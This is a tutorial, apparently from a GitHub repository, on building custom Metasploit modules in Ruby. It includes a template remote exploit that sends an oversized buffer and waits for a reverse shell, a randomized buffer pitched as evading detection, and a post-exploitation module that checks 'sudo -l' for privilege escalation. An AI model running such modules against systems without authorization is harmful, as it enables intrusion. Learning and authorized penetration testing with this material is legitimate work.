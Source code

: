 #  Custom Metasploit Module Development

##  Overview
Metasploit allows security professionals to create **custom modules** to exploit specific vulnerabilities, automate tasks, or enhance post-exploitation capabilities. Understanding how to develop Metasploit modules is crucial for **penetration testers, red teamers, and exploit developers**.

---

##  **Metasploit Module Structure**
A Metasploit module is written in **Ruby** and follows a specific structure. Modules are stored under:
```bash
~/.msf4/modules/


```
###  **Types of Modules**
| Type | Description |
|------|------------|
| **Exploits** | Used to gain unauthorized access. |
| **Payloads** | Code executed on the target after exploitation. |
| **Encoders** | Used to evade detection by obfuscating payloads. |
| **Auxiliary** | Used for scanning, fuzzing, and enumeration. |
| **Post** | Used for privilege escalation, data exfiltration, etc. |

---

##  **Step 1: Creating a Custom Exploit Module**
###  **Create a New Exploit Module**
Navigate to the Metasploit module directory:
```bash
mkdir -p ~/.msf4/modules/exploits/custom/
cd ~/.msf4/modules/exploits/custom/
touch custom_exploit.rb
```

---

##  **Step 2: Writing the Exploit Module**
Open `custom_exploit.rb` in a text editor:
```bash
nano custom_exploit.rb
```
Add the following **basic exploit structure**:

```ruby
# Custom Metasploit Exploit Module
class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name'           => 'Custom Buffer Overflow Exploit',
        'Description'    => %q{
          This exploit demonstrates a simple buffer overflow attack.
        },
        'Author'         => ['Your Name'],
        'License'        => MSF_LICENSE,
        'Platform'       => 'linux',
        'Targets'        => [['Linux', { 'Arch' => ARCH_X86 }]],
        'DisclosureDate' => '2025-03-27',
        'DefaultTarget'  => 0
      )
    )
    register_options([Opt::RPORT(1337)]) # Define the target port
  end

  def check
    vprint_status("Checking if target is vulnerable...")
    connect
    sock.puts("HELLO")
    banner = sock.get_once
    disconnect
    if banner && banner.include?("VULNERABLE")
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
  end

  def exploit
    connect
    buffer = "A" * 1000 # Trigger the buffer overflow
    sock.puts(buffer)
    print_good("Payload sent!")
    handler
    disconnect
  end
end
```

---

## **Step 3: Understanding the Code**
✅ **Module Type:** `Msf::Exploit::Remote` – Defines this as a remote exploit.  
✅ **Include TCP Module:** `Msf::Exploit::Remote::Tcp` – Allows TCP communication.  
✅ **Options:** `Opt::RPORT(1337)` – Specifies the default port for exploitation.  
✅ **Check Function:**  
- Sends a test payload to determine if the target is vulnerable.  
✅ **Exploit Function:**  
- Sends a malicious buffer to trigger the vulnerability.  
- Calls `handler` to receive a **reverse shell** if successful.  

---

##  **Step 4: Running the Custom Module**
1️⃣ **Reload the Metasploit Framework**:
```bash
msfconsole
reload_all
```
2️⃣ **Use the custom module**:
```bash
use exploit/custom/custom_exploit
set RHOSTS <target-ip>
exploit
```
 **If successful, you will get a shell on the target!**  

---

##  **Step 5: Enhancing the Module**
###  **Adding Exploit Reliability**
Modify the buffer size dynamically:
```ruby
def exploit
  buffer = rand_text_alpha(1000) # Randomized buffer to evade detection
  sock.puts(buffer)
  handler
  disconnect
end
```

###  **Adding a Custom Payload**
Instead of a default payload, you can **execute commands**:
```ruby
sock.puts("whoami")
response = sock.get_once
print_good("Executed command: #{response}")
```

---

##  **Step 6: Creating a Post-Exploitation Module**
Metasploit **post-exploitation modules** allow you to automate **privilege escalation, credential dumping, and lateral movement**.

### 📂 **Create a Post-Exploitation Module**
```bash
mkdir -p ~/.msf4/modules/post/linux/
cd ~/.msf4/modules/post/linux/
touch custom_priv_esc.rb
```

###  **Write the Post-Exploitation Code**
```ruby
class MetasploitModule < Msf::Post
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name'        => 'Custom Privilege Escalation Checker',
        'Description' => 'Checks if the system has misconfigurations for privilege escalation',
        'Author'      => ['Your Name'],
        'License'     => MSF_LICENSE
      )
    )
  end

  def run
    print_status("Checking sudo privileges...")
    result = cmd_exec("sudo -l")
    if result.include?("(ALL) NOPASSWD:")
      print_good("Privilege escalation possible!")
    else
      print_error("No privilege escalation found.")
    end
  end
end
```

 **This script checks for misconfigurations in `sudo` privileges**.  

---

##  **Step 7: Debugging Custom Modules**
If your module isn't working, debug it with:
```bash
msfconsole -x "use exploit/custom/custom_exploit; set RHOSTS <target-ip>; set VERBOSE true; exploit"
```
Or manually inspect logs:
```bash
cat ~/.msf4/logs/framework.log
```

---

##  **Final Thoughts**
✅ **Custom modules allow you to tailor Metasploit to your needs.**  
✅ **Understanding Ruby and the Metasploit API is crucial.**  
✅ **Adding obfuscation, payload encryption, and automation improves security testing.**  

 **Ethical Hacking Reminder:**  
Only use custom modules in **authorized penetration tests**! 🚀  

---
```
